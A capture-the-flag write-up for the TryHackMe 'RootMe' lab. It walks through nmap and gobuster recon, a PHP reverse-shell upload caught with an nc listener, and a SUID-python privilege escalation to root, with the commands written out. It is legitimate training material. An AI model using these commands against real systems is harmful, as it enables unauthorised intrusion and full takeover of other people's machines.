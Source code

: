 <p align="center"><img src="./Cover.png" width="310" ></p>
<h1><p align="center">Simple CTF : </h1><h2> A ctf for beginners, can you root me?</h2></p>

### Room Link: [RootMe](https://tryhackme.com/room/rrootme) 

## Recon...
So I began with nmap scan to Find entry points.
```bash 
$ sudo nmap -T4 -sC -sS -A 10.10.210.59 > nmap.out
$ cat nmap.out

Starting Nmap 7.60 ( https://nmap.org ) at 2021-03-22 11:00 GMT
Nmap scan report for ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)
Host is up (0.00038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
MAC Address: 02:31:87:E1:4C:F5 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms ip-10-10-231-92.eu-west-1.compute.internal (10.10.231.92)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.11 seconds
```

As I can see there is a http server running on target. Lets checkout and let dirbuster run in background.
```bash
$ sudo gobuster dir -u http://10.10.231.92/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o dir.out
$ cat dir.out 

http://10.10.231.92/uploads (Status: 301)
http://10.10.231.92/css (Status: 301)
http://10.10.231.92/js (Status: 301)
http://10.10.231.92/panel (Status: 301)
http://10.10.231.92/server-status (Status: 403)

```

## Foot Hold...

Now there are 2 directories that I found intresting and one had a upload form. So I tried to upload php reverse shell script and bypassed with burp. 
While ```nc``` Listening in background.
```bash
$ sudo nc -lvnp 8080 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$whoami
www-data 
```
We have a reverse shell, stabalize it with this one liner ``` python3 -c 'import pty;pty.spawn("/bin/bash")'```.

Now find user.txt flag.
```bash
www-data@rootme:/$ find / -name user.txt -type f 2>/dev/null

/var/www/user.txt

www-data@rootme:/$ cat /var/www/user.txt

THM{****************}
```

## Privlege Escalation...

Lets enumerate the user. I used [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
for it.
```bash 
www-data@rootme:/var/tmp$ ./linpeas.sh
./linpeas.sh
 Starting linpeas. Caching Writable Folders...

                     ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄▄
      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄
  ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄
  ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
  ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
  ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
  ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
  ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
  ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
  ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
  ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
  ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
  ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
  ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
  ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
   ▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄
        ▄▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄ 
             ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
    linpeas v3.0.2 by carlospolop
                                                                                                                             
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.                                                                                               
                                                                                                                             
...
[+] SUID - Check easy privesc, exploits and write perms                                                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                
strings Not Found                                                                                                            
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping6                                              
-rwsr-xr-x 1 root   root             44K May  7  2014 /snap/core/9665/bin/ping
-rwsr-sr-x 1 root   root            3.5M Aug  4  2020 /usr/bin/python
```
So there is a SUID set for python as root, lets exploit it.Check [GTFOBins](https://gtfobins.github.io/gtfobins/python/).

```bash
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# python3 -c 'import pty;pty.spawn("/bin/bash")'
root@rootme:/# whoami
root
root@rootme:/# cat /root/root.txt

THM{*******************}
```

Now root flag can be obatined but I wannted to own the root on **RootMe** so I changed the password and rooted the box.
